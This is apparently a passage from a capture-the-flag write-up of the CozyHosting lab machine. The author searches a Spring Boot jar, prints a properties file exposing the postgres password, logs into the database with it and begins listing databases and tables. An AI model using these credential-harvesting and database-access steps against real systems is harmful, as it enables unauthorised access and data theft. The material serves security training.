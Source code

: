 ```
grep: BOOT-INF/classes/htb/cloudhosting/database/CozyUser.class: binary file matches
grep: BOOT-INF/classes/htb/cloudhosting/secutiry/SecurityConfig.class: binary file matches
grep: BOOT-INF/classes/htb/cloudhosting/scheduled/FakeUser.class: binary file matches
```
It seems there is a password in the file `BOOT-INF/classes/application.properties`:
```
app@cozyhosting:/tmp/jar$ cat BOOT-INF/classes/application.properties
cat BOOT-INF/classes/application.properties
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```
This is the password of the `postgres` user. We can now log into the database:
```
app@cozyhosting:/tmp/jar$ /usr/lib/postgresql/14/bin/psql -U postgres -d cozyhosting -W -h 127.0.0.1
<bin/psql -U postgres -d cozyhosting -W -h 127.0.0.1
Password: Vg&nvzAQ7XxR

psql (14.9 (Ubuntu 14.9-0ubuntu0.22.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

cozyhosting=# 
```
We can see there are 4 databases:
```
cozyhosting-# \l
\l
WARNING: terminal is not fully functional
Press RETURN to continue 

                                   List of databases
    Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privil
eges   
-------------+----------+----------+-------------+-------------+----------------
-------
 cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres    
      +
             |          |          |             |             | postgres=CTc/po
stgres
 template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres    
      +
             |          |          |             |             | postgres=CTc/po
stgres
(4 rows)
```
There are two tables in the database `cozyhosting`:
```
cozyhosting-# \dt
\dt
WARNING: terminal is not fully functional
Press RETURN to continue 
```